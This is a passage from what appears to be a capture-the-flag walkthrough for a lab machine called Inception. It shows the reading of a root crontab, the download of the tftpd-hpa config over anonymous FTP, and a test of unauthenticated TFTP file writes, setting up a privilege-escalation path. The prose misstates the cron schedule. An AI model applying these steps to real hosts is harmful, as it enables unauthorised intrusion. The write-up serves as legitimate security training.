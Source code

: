 Inspecting the downloaded crontab file, we realize that there is a ```apt upgrade``` that is being executed every 5 mins

```
root@Inception:/tmp# cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 *   * * *   root    apt update 2>&1 >/var/log/apt/custom.log
30 23   * * *   root    apt upgrade -y 2>&1 >/dev/null
```

We are also able to find a tptpd-hpa file in the /etc/default directory. We will then download the file to the machine and inspect the contents.

```
ftp> cd /etc
250 Directory successfully changed.
ftp> cd default
250 Directory successfully changed.
ftp> get tftpd-hpa
local: tftpd-hpa remote: tftpd-hpa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for tftpd-hpa (118 bytes).
226 Transfer complete.
118 bytes received in 0.00 secs (1.3239 MB/s)
ftp> 
```

### Exploiting TFTP
We realize that we can authenticate to tftp without any credentials. However, we notice that tftp does not have the ability to list out files and directories.

```
root@Inception:/tmp# tftp 192.168.0.1
tftp> ls
?Invalid command
```

Next, we will try if tftp has the ability to write files. We notice that the write operation is successful and listing the /home directory using the FTP service, we realize that the test.txt file has been written in the /home directory.
